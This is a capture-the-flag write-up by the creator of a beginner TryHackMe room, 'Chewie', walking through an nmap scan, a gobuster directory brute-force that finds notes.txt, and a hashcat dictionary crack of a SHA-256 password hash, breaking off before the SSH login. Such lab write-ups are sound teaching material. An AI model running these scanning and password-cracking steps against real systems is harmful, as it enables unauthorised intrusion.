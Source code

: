 ```yaml
---
title: Chewie Writeup [TryHackMe]
published: true
---
```


# [](#header)Intro

This is actually my first ever VM i created and i hope it was an enjoyable machine for all of you to try :DD.

I design this room to be easy for beginners and more importantly i hope all of you enjoy.

Okay let's just get into hacking!!

<a href="">
link to thm
</a>

# [](#header)Enumeration

We start with nmap scan :

### nmap -sC -sV -oN nmap 192.168.100.11

- -sC : Equivalent to --script=default
- -sV : Probe open ports to determine service/version info
- -oN : Output scan in normal

```bash

Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-16 17:34 WIB
Nmap scan report for 192.168.100.11
Host is up (0.00030s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 08:ff:e3:9c:9a:a7:56:3e:2e:bd:fc:e3:63:06:ba:10 (RSA)
|   256 3a:d9:57:b2:70:af:03:2f:7a:0d:d1:97:d6:14:d1:7b (ECDSA)
|_  256 6b:74:b3:9c:2a:1a:da:f8:05:0d:83:f9:8c:85:d5:48 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Chewwie
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.55 seconds

```

We only have 2 ports open: 80 for Apache and 22 for SSH.

Visiting the webserver we get the following page:

![](../assets/images/chewie_thm/web_page.png)

We can try to do directory scan with gobuster and add txt extension:

### gobuster dir -u http://192.168.100.11/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x txt

- dir : Uses directory/file brutceforcing mode
- -w : Path to the wordlist
- -u : To specify the url

```bash

===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://192.168.100.11/
[+] Threads:        10
[+] Wordlist:       /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     txt
[+] Timeout:        10s
===============================================================
2020/06/16 18:03:21 Starting gobuster
===============================================================
/images (Status: 301)
/manual (Status: 301)
/javascript (Status: 301)
/notes.txt (Status: 200)
Progress: 14310 / 220561 (6.49%)
```

We found `notes.txt` and inside we found a username and password for ssh.

![](../assets/images/chewie_thm/note.png)

But the password was hashed and we have to crack it. There's a lot of ways of cracking password, but here i will use hashcat to crack the hash:

### hashcat -a 0 -m 1400 '5c773b22ea79d367b38810e7e9ad108646ed62e231868cefb0b1280ea88ac4f0' /opt/wordlist/rockyou.txt

- -a : --attack-mode (0 for Straight mode)
- -m : --hash-type (1400 for sha256)

```bash
Dictionary cache hit:
* Filename..: /opt/wordlist/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

5c773b22ea79d367b38810e7e9ad108646ed62e231868cefb0b1280ea88ac4f0:password101

Session..........: hashcat
Status...........: Cracked
Hash.Type........: SHA2-256
Hash.Target......: 5c773b22ea79d367b38810e7e9ad108646ed62e231868cefb0b...8ac4f0
Time.Started.....: Tue Jun 16 18:39:43 2020 (1 sec)
Time.Estimated...: Tue Jun 16 18:39:44 2020 (0 secs)
Guess.Base.......: File (/opt/wordlist/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    76479 H/s (3.36ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 24576/14344385 (0.17%)
Rejected.........: 0/24576 (0.00%)
Restore.Point....: 20480/14344385 (0.14%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: michael! -> 280789

Started: Tue Jun 16 18:39:01 2020
Stopped: Tue Jun 16 18:39:46 2020
```

A few minutes later the password was CRACKED!!

After that we can ssh to the machine with the user we found and the password we crack:
